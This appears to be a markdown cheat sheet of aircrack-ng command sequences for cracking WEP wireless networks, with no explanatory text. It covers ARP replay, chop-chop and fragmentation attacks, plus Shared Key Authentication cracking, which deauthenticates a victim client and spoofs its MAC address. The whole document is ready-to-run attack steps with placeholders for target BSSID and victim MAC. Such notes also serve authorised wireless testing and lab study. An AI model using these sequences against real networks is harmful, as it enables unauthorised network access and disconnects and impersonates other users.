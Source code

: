 ### <mark style="color:orange;">ARP Replay Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -3 -x 1000 -n 1000 -b <BSSID> -h <OurMac> wlan0mon
aircrack-ng -b <BSSID> <PCAP_of_FileName>
```

### <mark style="color:orange;">Chop Chop Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
aireplay-ng -4 -b <BSSID> -h <OurMac> wlan0mon
 #Press ‘y’ ;
packetforge-ng -0 -a <BSSID> -h <OurMac> -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
aireplay-ng -2 -r <FileName2> wlan0mon
aircrack-ng <PCAP_of_FileName>
```

### <mark style="color:orange;">Fragmentation Attack</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
#What’s my mac?
macchanger --show wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <OurMac> wlan0mon
aireplay-ng -5 -b <BSSID> -h < OurMac > wlan0mon
#Press 'y' ;
packetforge-ng -0 -a <BSSID> -h < OurMac > -k <SourceIP> -l <DestinationIP> -y <XOR_PacketFile> -w <FileName2>
aireplay-ng -2 -r <FileName2> wlan0mon
aircrack-ng <PCAP_of_FileName>
```

### <mark style="color:orange;">SKA (Shared Key Authentication) Type Cracking</mark>

```
airmon-ng start wlan0
airodump-ng -c <AP_Channel> --bssid <BSSID> -w <FileName> wlan0mon
aireplay-ng -0 10 -a <BSSID> -c <VictimMac> wlan0mon
ifconfig wlan0mon down
macchanger --mac <VictimMac> wlan0mon
ifconfig wlan0mon up
aireplay-ng -3 -b <BSSID> -h <FakedMac> wlan0mon
aireplay-ng --deauth 1 -a <BSSID> -h <FakedMac> wlan0mon
aircrack-ng <PCAP_of_FileName>
```
